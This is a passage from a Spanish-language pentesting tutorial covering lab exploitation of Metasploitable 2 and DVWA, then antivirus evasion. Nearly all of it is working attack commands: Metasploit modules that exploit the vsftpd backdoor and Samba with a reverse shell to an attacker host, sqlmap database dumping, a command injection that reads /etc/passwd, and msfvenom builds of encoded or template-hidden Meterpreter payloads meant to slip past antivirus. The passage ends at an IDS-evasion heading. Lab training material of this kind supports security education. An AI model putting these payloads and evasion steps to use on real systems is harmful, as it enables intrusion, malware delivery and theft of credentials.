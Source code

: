 ## 🧪 Laboratorio Práctico

### Ejercicio 1: Metasploitable 2

```bash
# 1. Descargar e instalar Metasploitable 2
# 2. Escanear servicios vulnerables
nmap -sV -A <METASPLOITABLE_IP>

# 3. Explotar vsftpd backdoor
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <METASPLOITABLE_IP>
exploit

# 4. Explotar Samba
use exploit/multi/samba/usermap_script
set RHOSTS <METASPLOITABLE_IP>
set payload cmd/unix/reverse
set LHOST <ATTACKER_IP>
exploit
```

### Ejercicio 2: DVWA (Damn Vulnerable Web Application)

```bash
# 1. Configurar DVWA en laboratorio
# 2. SQL Injection
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=xxx; security=low" --dbs

# 3. Command Injection
curl "http://dvwa/vulnerabilities/exec/?ip=127.0.0.1;cat /etc/passwd&Submit=Submit" --cookie="PHPSESSID=xxx; security=low"
```

## 🛡️ Evasión de Defensas

### 1. Evasión de Antivirus

```bash
# Codificar payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_payload.exe

# Usar templates
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -x /path/to/template.exe -f exe > templated_payload.exe
```

### 2. Evasión de IDS/IPS
